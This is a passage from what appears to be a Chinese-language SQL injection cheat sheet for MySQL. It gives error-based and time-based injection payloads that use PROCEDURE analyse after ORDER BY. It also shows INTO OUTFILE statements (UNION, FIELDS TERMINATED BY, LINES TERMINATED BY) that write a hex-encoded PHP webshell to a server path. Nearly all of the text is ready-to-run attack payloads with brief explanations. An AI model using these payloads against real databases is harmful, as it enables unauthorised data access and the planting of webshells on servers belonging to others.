 ![](https://ae01.alicdn.com/kf/He5036eef04164ef38d83d2b95b3186afJ.jpg)

### 存在 order by 关键字（无法使用union select）

![](https://ae01.alicdn.com/kf/H77658e82a26349239eb92e51c28b1f16d.jpg)

**此方法适用于5.0.0< MySQL <5.6.6版本**

```
PROCEDURE函数
```

- 报错注入

```
select id from users order by id desc limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
```
![](https://ae01.alicdn.com/kf/H58f5c6058f644d28b34a17e3a4b97189e.jpg)

- 延时注入

```
select * from admin where id >0 order by id limit 0,1 PROCEDURE analyse(extractvalue(rand(),concat(0x3a,(if(1=1,benchmark(2000000,md5(404)),1)))),1);
```

## 报错注入邂逅load_file&into outfile搭讪LINES
```
FIELDS TERMINATED BY原理为在输出数据的每个字段之间插入webshell内容，所以如果select返回的只有一个字段，则写入的文件不包含webshell内容,例如下面语句SELECT username FROM user WHERE id = 1 into outfile 'D:/1.php' FIELDS TERMINATED BY 0x3c3f70687020706870696e666f28293b3f3e，写入的文件中只包含username的值而没有webshell内容;

LINES TERMINATED BY和LINES STARTING BY原理为在输出每条记录的结尾或开始处插入webshell内容，所以即使只查询一个字段也可以写入webshell内容，更为通用。此外，该类方式可以引用于limit等不能union的语句之后进行写文件操作。
```
### into outfile 写文件

- union写文件

```
SELECT * FROM user WHERE id = -1 union select 1,2,0x3c3f70687020706870696e666f28293b3f3e into outfile 'D:/1.php'
```
- FIELDS TERMINATED BY（可在limit等语句后）

```
SELECT * FROM user WHERE id = 1 into outfile 'D:/1.php' fields terminated by 0x3c3f70687020706870696e666f28293b3f3e
```

-  LINES TERMINATED BY（可用于limit等sql注入）

```
SELECT username FROM user WHERE id = 1 into outfile 'D:/1.php' LINES TERMINATED BY 0x3c3f70687020706870696e666f28293b3f3e
```
